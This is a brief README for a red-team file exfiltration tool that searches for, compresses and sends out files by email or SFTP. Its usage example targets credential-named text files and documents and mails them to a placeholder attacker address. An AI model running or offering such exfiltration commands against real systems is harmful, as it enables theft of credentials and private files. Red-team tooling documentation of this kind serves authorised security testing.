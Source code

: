 # TeaParty 🫖

TeaParty is a console-based tool for searching, compressing, and exfiltrating files via email or SFTP. Designed for red team operations, incident response, or automation.

## Features

- Search by file extension, name pattern, or both
- Recursive search with exclusion filters
- ZIP compression with SHA256 integrity hashes
- Email delivery (supports multiple recipients)
- SFTP fallback if email fails (optional)
- Logging with `--debug` and `--quiet` mode
- Interactive input or CLI arguments
- Hash-based cache to avoid duplicates

Remember that -h (help) option is available to see more options in details.
## Usage

```bash
teaparty.exe -s 3 -e .pdf,.docx -p *cred*.txt -d C:\data -m attacker@example.com:pass -to target@example.com -z 1


Author
Created by Lagash
